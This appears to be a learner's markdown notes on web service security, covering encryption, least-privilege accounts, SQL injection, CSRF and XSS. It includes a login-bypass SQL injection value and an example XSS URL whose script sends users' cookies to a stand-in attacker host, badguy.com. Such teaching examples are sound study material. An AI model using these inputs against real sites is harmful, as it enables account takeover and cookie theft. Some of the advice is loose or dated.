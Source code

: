 # [Design Web Service] Security
* Writing notes for learning how to build a secure web service.
* Discuss web server security features.

## Key Questions
- What happens if the file are not encypted?
  - FTP to SFTP
  - HTTP to HTTPS
  - telnet vs SSH
  
  User sessions or important information might sniffs by hackers. For example, people can see sessions in the header of HTTP without using SSL. Then the bad guys will be able to pretend you in the system.

- How about running the programs in different user, instead of root?
  
  - For example, using httpd to run Apache. The bad guy could only use httpd to break down Apache, and the file httpd owns.
  - Using a group to control the read access, sperate the update command for unique users.

    
## Key Threats
- ***User privilege***
  
  Try to be aware of the initial functions that the program users can execute, and keep the privilege on single user. 
	
  - For example, php web server are able to execute files by echo the name of the file. So, we should manupilating in our own code, not to enable some initial function that might cause damage, like sql injections or giving important details.
    
    Something buggy happens, like the bad guy try to delete files, they only could delete the user's only.
    
- ***Stealing info from response***

  Sensitive information should not be seen, etc: version, user tokens.
  
  - Make sure your program in your settings will not leak any critical details.

- ***Session Hijacking***
  - Packet Sniffing
  - Session Fixation (guess the session combinations)
  - XSS (Cross-Site Scripting)
  
  How can we mitigate these threats?
  - Session Encypted - SSL using public cryptography
    
    Buying a domain with SSL from godaddy. We get two unique key. A public key to encrypt the data, which could publicly spread to others. On the other hand, the private key on our server is the only key to decrypt the data.

- ***SQL Injection***
  - Remember to call the protecting functions like mysql real_escape_string() in PHP. It prevents special symbols, like semicolon;. They might even drop your table, if you ignore this risk. 

  - Down below is an bad mysql code, which might give the bad guys a chance to cause damage to your system.

	
  	"SELECT uid From users WHERE username = '%s' AND password='%s'", ...
    
    Giving password %s=123' OR '1'='1'. This case will let the user login without using the real password, since it will return true.
  
  - Django server by using orm will be much safer, or using Python Database API. Both of them have inplement escaping special symbols.
  	
- ***CSRF / XSS (Cross-Site Scripting)***
  
  CSRF
  - Bad guys might use your domain to let people clicking unwittingly, or even trigger simply by visit the bad website. For example, they embed a buying link, which cause the users kept buying specific stocks.
  
  - How do we prevent this happens?
    - Create identifier for some key functions, or we make the action more complex by using POST.
    
  XSS
  - Bad guys might able to implement script to redirect and get users cookie by using same domain as your. For example, provide a web injection by using script tag in there webs down below.
  
	www.eshop.com/?foo=<sript>documemnt.location="badguy.com/..."</srcipt>
    
    The user of eshop's cookie will automatically send to badguys.com, which is a tragety.

    
  